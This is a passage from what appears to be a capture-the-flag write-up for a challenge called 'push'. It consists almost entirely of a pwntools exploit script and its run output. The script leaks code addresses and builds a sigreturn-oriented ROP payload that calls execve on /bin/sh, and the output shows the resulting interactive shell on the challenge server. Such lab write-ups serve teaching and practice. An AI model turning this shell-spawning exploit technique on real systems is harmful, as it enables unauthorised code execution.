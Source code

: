 ```
leak = (target.recvline())
print(leak)

pop_rax = int(leak, 16) + 4
print('pop rax ret at ', hex(pop_rax))

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')
print(target.recvuntil(b'~ push 0x0f050f05; ret |'))
leak = (target.recvline())
print(leak)
syscall = int(leak, 16) + 2

print('syscall at', hex(syscall))

print('adjusted pop rax and syscall to be correct')

pop_rax += 2
syscall += 2

padding = b'a' * 16 

payload = padding + p64(pop_rax) + p64(0xf) + p64(syscall)

frame.rip = syscall
frame.rdi = binsh 
frame.rax = 59
frame.rsi = 0
frame.rdx = 0

payload += bytes(frame)

target.sendline(payload)

target.interactive()
```
And here is what that looks like once it runs:
 ```
 knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/CyberOpen22$ python3 push_writeup_solve.py
[+] Opening connection to 0.cloud.chals.io on port 21978: Done
b"----------------------------------------------------------------------------\n ~ You stay the course, you hold the line you keep it all together        ~ \n ~ You're the one true thing I know I can believe in                      ~ \n ~ You're all the things that I desire you save me, you complete me       ~ \n ~                                              - Push, Sarah McLachlan.  ~ \n----------------------------------------------------------------------------\n<<< Push your way to /bin/sh at :"
b' 0x561776aba050\n'
binsh is at 0x561776aba050
b'----------------------------------------------------------------------------\n~ Would you like another push (Y/*) >>>'
b' ~ Would you like another push (Y/*) >>>'
b' ~ push 0x58585858; ret |'
b' 0x561776ab71c0\n'
pop rax ret at  0x561776ab71c4
b'~ Would you like another push (Y/*) >>>'
b' ~ push 0x0f050f05; ret |'
b' 0x561776ab71cf\n'
syscall at 0x561776ab71d1
adjusted pop rax and syscall to be correct
[*] Switching to interactive mode
~ Would you like another push (Y/*) >>> $ ls
-
 ```